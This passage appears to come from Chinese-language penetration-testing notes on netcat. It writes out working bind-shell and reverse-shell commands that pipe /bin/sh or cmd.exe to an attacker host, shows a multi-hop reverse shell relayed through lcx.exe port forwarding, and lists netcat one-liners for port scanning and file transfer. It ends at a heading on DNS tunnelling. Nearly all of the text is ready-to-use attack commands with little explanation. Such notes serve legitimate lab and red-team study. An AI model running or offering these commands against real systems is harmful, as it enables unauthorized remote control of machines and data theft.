    受害：

   ```
   nc -ldp 1234 -e /bin/sh //linux
   
   nc -ldp 1234 -e c:\windows\system32\cmd.exe //windows
   ```

   攻击：

   ```
   nc 192.168.76.132 1234 //主动连接
   ```

2. **反向：**受害连接攻击

   攻击：

   ```
   nc -lvp 1234
   ```

   受害：

   ```
   nc 攻击主机 IP 1234 -e /bin/sh   //linux
   
   nc 攻击主机 IP 1234 -e c:\windows\system32\cmd.exe     //windows
   ```

**多向连接反弹 shell-配合转发**

1. god\Webserver：

   ```
   Lcx.exe -listen 2222 3333
   ```

2. god\Sqlserver：

   ```
   nc 192.168.3.31 2222 -e c:\windows\system32\cmd.exe
   ```

3. kali 或本机：

   ```
   nc -v 192.168.76.143 3333
   ```

相关 `netcat` **主要功能测试**

- 指纹服务：`nc -nv 192.168.76.143`

- 端口扫描：`nc -v -z 192.168.76.143 1-100`

- 端口监听：`nc -lvp xxxx`

- 文件传输：`nc -lp 1111 >1.txt|nc -vn xx.xx.x.x 1111 <1.txt -q 1`

- 反弹 Shell：见上



### 应用层 DNS 隧道
